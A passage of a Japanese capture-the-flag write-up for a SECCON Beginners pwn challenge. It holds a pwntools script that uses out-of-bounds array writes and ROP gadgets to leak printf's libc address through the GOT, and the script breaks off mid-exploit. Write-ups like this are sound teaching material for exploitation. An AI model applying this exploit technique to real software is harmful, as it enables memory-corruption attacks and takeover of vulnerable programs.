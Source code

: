 ROP gadgetを調べてみると
+ 5個飛ばせる `pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret`
+ 3個飛ばせる `pop r13 ; pop r14 ; pop r15 ; ret`

を発見したのでatolの後に壊れる部分を飛ばすことにする。
そしてx[0]～にprintfのリークのコードを入れ込んでリーク成功。

```python
import pwn

def read_until(io, s):
    ret = b""
    while ret.find(s) == -1:
        ret += io.read(1)
    return ret

addr_got_atol = 0x601040
addr_5pop = 0x40088b
addr_3pop = 0x40088e
addr_pop_rdi = 0x400893
addr_plt_printf = 0x400590
addr_got_printf = 0x601020
addr_start = 0x40079e

#io = pwn.remote("es.quals.beginners.seccon.jp", 9003)
io = pwn.process("./chall")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"0\n")
ret = read_until(io, b"value: ")
addr = str(addr_pop_rdi)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"1\n")
ret = read_until(io, b"value: ")
addr = str(addr_got_printf)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"2\n")
ret = read_until(io, b"value: ")
addr = str(addr_plt_printf)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"-10\n")
ret = read_until(io, b"value: ")
print(ret)
addr = str(addr_5pop)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"-4\n")
ret = read_until(io, b"value: ")
print(ret)
addr = str(addr_3pop)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
```